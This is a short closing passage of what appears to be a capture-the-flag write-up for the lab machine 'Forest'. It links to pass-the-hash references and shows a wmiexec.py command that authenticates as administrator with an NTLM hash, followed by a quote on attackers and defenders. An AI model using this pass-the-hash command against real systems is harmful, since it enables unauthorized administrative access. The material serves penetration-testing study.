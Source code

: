 Reference - Pass the Hash : https://blog.ropnop.com/practical-usage-of-ntlm-hashes/

Reference - wmiexec.py : https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py

```terminal
$ python wmiexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

We have compromise Forest machine.

***

## **<center>Trophy</center>**

> **Defenders think in lists. Attackers think in graphs. As long as this is true, attackers win.**
>
> John Lambert
